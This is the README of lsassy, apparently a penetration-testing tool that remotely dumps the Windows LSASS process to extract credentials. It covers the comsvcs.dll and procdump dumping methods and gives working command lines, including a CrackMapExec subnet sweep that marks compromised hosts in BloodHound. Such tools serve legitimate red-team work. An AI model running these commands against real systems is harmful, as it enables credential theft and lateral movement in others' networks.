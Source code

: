 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=1.1.1&x2=0)](https://pypi.org/project/lsassy/) [![Twitter](https://img.shields.io/twitter/follow/hackanddo?label=HackAndDo&style=social)](https://twitter.com/intent/follow?screen_name=hackanddo)

![CME Module example](https://github.com/Hackndo/lsassy/raw/master/assets/example.png)

Python library to remotely extract credentials.

Blog post : https://en.hackndo.com/remote-lsass-dump-passwords/

This library uses [impacket](https://github.com/SecureAuthCorp/impacket) project to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [Advanced Usage](#advanced)                  | Advanced usage (Dumping methods, execution methods, ...)|
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples)                        | Command line examples for standalone and CME module     |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |
| [Contributors](#contributors)                | People contributing to this tool                        |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

## Advanced

### Dumping methods

This tool can dump lsass in different ways.

Dumping methods (`-m` or `--method`)
* **0**: Try all methods to dump procdump, stop on success (Requires -p if dll fails)
* **1**: comsvcs.dll method, stop on success (default)
* **2**: Procdump method, stop on success (Requires -p)
* **3**: comsvcs.dll + Powershell method, stop on success
* **4**: comsvcs.dll + cmd.exe method

#### comsvcs.dll method

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump** function from **comsvcs.dll** to dump **lsass** process.

This method can only be used when context has **SeDebugPrivilege**. This privilege is either in Powershell local admin context, or cmd.exe SYSTEM context.

Two execution methods can be used.
1. **WMIExec** with cmd.exe (no SeDebugPrivilege), or powershell (SeDebugPrivilege)
2. **ScheduledTasks** with SYSTEM context (SeDebugPrivilege)

#### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. It will first try to execute
procdump using WMI, and if it fails it will create a remote task, execute it and delete it.

#### Examples

```bash
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 0 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 1
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 2 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 3
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 4
```

### Remote parsing only

lsassy can parse an already dumped lsass process.

```
lsassy [--hashes [LM:]NT] --dumppath /share/path/to/dump.dmp [<domain>/]<user>[:<password>]@<target>
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](https://github.com/Hackndo/lsassy/tree/master/cme)

## Examples

### lsassy

```bash
# RunDLL Method
lsassy adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Procdump Method
lsassy -p /tmp/procdump.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Remote parsing only
lsassy --dumppath C$/Windows/Temp/lsass.dmp adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# NT Hash Authentication
lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.adsec.local
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound
```

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

### ChangeLog

```
v1.1.0
------
* Better execution process : --method flag has been added and described in help text
* Uses random dump name
* Chose between cmd, powershell, dll and/or procdump methods
* CME module is now using light lsassy WMIExec et TASKExec implementation
* Bug fixes

v1.0.0
------
* Built-in lsass dump
** Lsass dump using built-in Windows
** Lsass dump using procdump (using -p parameter)
* Add --dumppath to ask for remote parsing only
* Code refactoring
* Add --quiet to quiet output

v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas

## Contributors

* [ITPPA](https://github.com/ITPPA/)
* [viaccoz](https://github.com/viaccoz)
